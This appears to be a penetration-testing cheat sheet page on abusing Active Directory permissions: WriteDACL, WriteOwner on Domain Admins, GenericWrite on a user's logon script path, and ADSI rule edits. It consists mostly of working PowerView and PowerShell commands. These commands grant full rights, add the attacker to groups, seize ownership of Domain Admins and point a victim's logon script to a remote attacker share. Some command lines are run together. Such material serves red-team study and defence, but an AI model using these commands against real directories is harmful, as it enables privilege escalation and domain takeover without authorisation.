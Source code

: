 # Write Property

### <mark style="color:orange;">WriteDACL</mark>

Find domain groups that current user has `WriteDACL` access right to:

```powershell
PowerView3 > Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | % {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | % {if ($_.Identity -eq $("$env:UserDomain\$env:UserName")) {$_}} | ? {$_.ActiveDirectoryRights -like "*WriteDacl*"}
```

The attacker can take the full control of discovered groups and then add a users to them:

```powershell
PowerView3 > Add-DomainObjectAcl -TargetIdentity "IT Desk" -PrincipalIdentity snovvcrash -Domain tricky.com -Rights All -Verbose
PowerView3 > Add-DomainGroupMember -Identity "IT Desk" -Members snovvcrash -Verbose
```

#### Group membership will take its sweet time to be updated within target user's TGT. To [force](http://woshub.com/how-to-refresh-ad-groups-membership-without-user-logoff/) the update one may purge existing tickets and request new TGT:

```
Cmd > klist purgeCmd > gpupdate /forceCmd > dir \\dc1.megacorp.local\c$
```

### <mark style="color:orange;">WriteOwner on Group</mark>

before the attack the owner of Domain Admins is Domain Admins. After the ACE enumeration, if we find that a user in our control has `WriteOwner` rights on `ObjectType:All`

```powershell
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

we can change the `Domain Admins` object's owner to our user, which in our case is `spotless`. Note that the SID specified with `-Identity` is the SID of the `Domain Admins` group:

```powershell
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
```

### <mark style="color:orange;">GenericWrite on User</mark>

```powershell
Get-ObjectAcl -ResolveGUIDs -SamAccountName delegate | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

`WriteProperty` on an `ObjectType`, which in this particular case is `Script-Path`, allows the attacker to overwrite the logon script path of the `delegate` user, which means that the next time, when the user `delegate` logs on, their system will execute our malicious script:

```powershell
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```

the user's ~~`delegate`~~ logon script field gets updated in the AD.

### <mark style="color:orange;">WriteDACL + WriteOwner</mark>

If you are the owner of a group And you have a `WriteDACL` on that AD object, you can give yourself `GenericAll` privileges with a sprinkle of ADSI sorcery:

```powershell
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local"
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```

Which means you now fully control the AD object.

This effectively means that you can now add new users to the group.

Interesting to note that I could not abuse these privileges by using Active Directory module and `Set-Acl` / `Get-Acl` cmdlets:

```powershell
$path = "AD:\CN=test,CN=Users,DC=offense,DC=local"
$acl = Get-Acl -Path $path
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule (New-Object System.Security.Principal.NTAccount "spotless"),"GenericAll","Allow"
$acl.AddAccessRule($ace)
Set-Acl -Path $path -AclObject $acl
```
